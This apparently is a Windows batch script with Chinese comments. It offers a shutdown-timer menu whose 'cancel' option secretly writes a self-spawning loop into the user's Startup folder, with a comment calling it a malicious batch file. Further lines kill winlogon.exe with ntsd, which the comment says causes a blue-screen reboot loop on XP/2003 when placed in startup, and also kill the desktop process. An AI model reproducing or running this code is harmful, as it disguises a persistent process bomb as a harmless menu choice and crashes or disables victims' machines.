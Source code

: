 ```powershell
start
// 表示跳转到某个区块
goto a



------定时关机
REM 需要让用户选择完返回
:0
REM 清除回显
cls
echo 1.定时关机
echo 2.取消
echo 3.退出
set /p num=你的选择：
REM if等式左右需要用双引号
if "%num%"=="1" goto 1
if "%num%"=="2" goto 2
if "%num%"=="3" goto 3
REM 应该处理else
echo 错误输入
pause
goto 0

:1
REM /p表示等待用户输入，a的值为用户输入的值，p表示param
set /p a=请输入时间
shutdown -s -f -t %a%
goto 0

REM 在开始启动中生成恶意批处理
:2
shutdown -a
echo :a >> "%userprofile%\开始菜单\程序\启动\hhh.bat"
echo start >> "%userprofile%\开始菜单\程序\启动\hhh.bat"
echo goto >> "%userprofile%\开始菜单\程序\启动\hhh.bat"
goto 0

:3
exit

-----针对xp/win2003命令,强制杀死登录命令，导致蓝屏，可以将其放入启动，导致开机蓝屏重启循环
ntsd -c q -pn winlogon.exe
-----杀死桌面进程
taskkill /im explorer.exe /f >nul 2>nul
REM 卡5秒
ping -n 5 127.0.0.1 >nul 2>nul
start c:\windows\explorer.exe

```
